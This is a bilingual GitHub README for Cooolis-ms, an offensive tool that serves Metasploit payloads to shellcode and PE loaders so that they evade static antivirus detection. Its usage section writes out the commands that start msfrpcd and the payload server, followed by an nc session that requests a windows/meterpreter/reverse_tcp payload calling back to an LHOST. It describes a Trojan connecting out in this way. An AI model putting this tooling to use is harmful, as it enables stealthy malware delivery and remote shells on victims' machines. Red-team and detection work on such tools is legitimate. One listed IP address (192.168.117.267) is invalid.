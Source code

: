 # Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。

Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：
You need to start the Metasploit RPC server first:

IP : 192.168.117.234

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：
Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 192.168.117.1

```
$ python3 server.py -U msf -P msf -H 192.168.117.234 -v -s -l 4444 -S 192.168.117.1
```

此时当客户端连接192.168.117.1:4444后，并发送配置载荷的JSON字符串就可以获得载荷代码：
At this point, when the client connects to 192.168.117.1:4444 and sends a JSON string of the configuration payload, the payload code can be obtained:

IP : 192.168.117.267

```
$ nc 192.168.117.1 4444
{"LPORT": "9988", "Format": "dll", "LHOST": "192.168.117.1","payload":"windows/meterpreter/reverse_tcp"}
// PAYLoAD ....
```

假设nc是一个木马，那么木马最终会连接JSON字符串中的`LHOST`，当然，也支持Metasploit中的所有载荷。
Assuming nc is a Trojan, then the Trojan will eventually connect to `LHOST` in the JSON string, and of course, all payloads in Metasploit are also supported.


1. 192.168.117.267->192.168.117.1:4444<->192.168.117.234
2. 192.168.117.267<->192.168.117.234

## About other | 关于其他

后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。
Subsequent I will write a collection of generic loader clients for the Windows platform into this project.

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

